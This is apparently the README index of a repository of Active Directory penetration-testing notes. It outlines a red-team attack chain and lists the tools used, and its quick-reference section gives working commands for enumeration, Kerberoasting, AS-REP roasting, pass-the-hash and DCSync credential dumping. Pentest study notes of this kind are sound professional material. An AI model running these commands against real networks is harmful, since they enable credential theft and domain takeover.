

# Active Directory

Notes on AD enumeration and exploitation — the bread and butter of internal penetration testing and Red Team engagements.

## Index

### Enumeration
- [AD Enumeration Workflow](./enumeration.md) *(WIP)*
- [BloodHound — Attack Path Analysis](./bloodhound.md) *(WIP)*
- [LDAP Queries Reference](./ldap-queries.md) *(WIP)*

### Initial Access
- [Password Spraying](./password-spraying.md) *(WIP)*
- [Null Sessions & SMB Enumeration](./null-sessions.md) *(WIP)*
- [LLMNR / NBT-NS Poisoning](./llmnr-poisoning.md) *(WIP)*

### Credential Attacks
- [Kerberoasting & AS-REP Roasting](./kerberoasting.md) *(WIP)*
- [Pass-the-Hash / Pass-the-Ticket](./pth-ptt.md) *(WIP)*
- [DCSync](./dcsync.md) *(WIP)*

### Privilege Escalation & Lateral Movement
- [ACL Abuse](./acl-abuse.md) *(WIP)*
- [GPO Abuse](./gpo-abuse.md) *(WIP)*
- [Lateral Movement Techniques](./lateral-movement.md) *(WIP)*
- [Trust Abuse](./trust-abuse.md) *(WIP)*

### Persistence
- [Golden / Silver Tickets](./golden-silver-tickets.md) *(WIP)*
- [DSRM Persistence](./dsrm-persistence.md) *(WIP)*
- [SID History Abuse](./sid-history.md) *(WIP)*

---

## Standard AD Attack Chain



1. **External Recon** — `nmap` against the network · OSINT on domain · subdomain enumeration
2. **Initial Foothold** — phishing · password spraying · null session · vulnerable service
3. **Domain Enumeration** — BloodHound + SharpHound · `ldapsearch` · `rpcclient` · `crackmapexec`
4. **Privilege Escalation** — Kerberoasting · AS-REP Roasting · ACL chains · misconfigured services
5. **Lateral Movement** — Pass-the-Hash · Pass-the-Ticket · `psexec` / `wmiexec` / `smbexec`
6. **Domain Admin** — DCSync · Golden Ticket · NTDS.dit dump
7. **Persistence** — Skeleton Key · DSRM · SID History · ACL backdoors
8. **Cleanup** — log artifact tracking, engagement narrative, IoC documentation

---

## Toolkit

| Tool | Purpose |
|---|---|
| **BloodHound** + **SharpHound** | Attack path graphing |
| **CrackMapExec** | Spraying, enumeration, lateral movement Swiss army knife |
| **Impacket** | Python implementations of Windows protocols (`secretsdump`, `psexec`, `GetUserSPNs`) |
| **Evil-WinRM** | Interactive WinRM shell |
| **Rubeus** | Kerberos abuse from Windows |
| **Mimikatz** | Credential extraction |
| **PowerView** / **PowerSploit** | PowerShell offensive toolkit |
| **kerbrute** | Username enumeration via Kerberos pre-auth |
| **Responder** | LLMNR/NBT-NS/MDNS poisoning |
| **ldapsearch** / **rpcclient** | Linux-side AD enumeration |

---

## Quick Reference — Linux side

### Enumeration
```bash
# Null session enumeration
rpcclient -U "" -N <DC_IP>
enum4linux-ng -A <DC_IP>
crackmapexec smb <DC_IP> --shares -u '' -p ''

# LDAP enumeration
ldapsearch -x -H ldap://<DC_IP> -b "DC=corp,DC=local"
ldapsearch -x -H ldap://<DC_IP> -b "DC=corp,DC=local" "(objectClass=user)"

# BloodHound collection
bloodhound-python -d corp.local -u user -p 'Pass1!' -ns <DC_IP> -c All
```

### Kerberoasting
```bash
GetUserSPNs.py corp.local/user:'Pass1!' -dc-ip <DC_IP> -request
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
```

### AS-REP Roasting (no pre-auth required)
```bash
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt -dc-ip <DC_IP>
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Pass-the-Hash
```bash
crackmapexec smb <CIDR> -u administrator -H <NT_HASH>
psexec.py -hashes :<NT_HASH> administrator@<TARGET>
evil-winrm -i <TARGET> -u administrator -H <NT_HASH>
```

### DCSync
```bash
secretsdump.py -just-dc corp.local/admin:'Pass1!'@<DC_IP>
```

---

## References

- [The Hacker Recipes — Active Directory](https://www.thehacker.recipes/ad)
- [HackTricks — Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [ired.team — Offensive Security](https://www.ired.team/)
- [PayloadsAllTheThings — AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [BloodHound docs](https://bloodhound.readthedocs.io/)
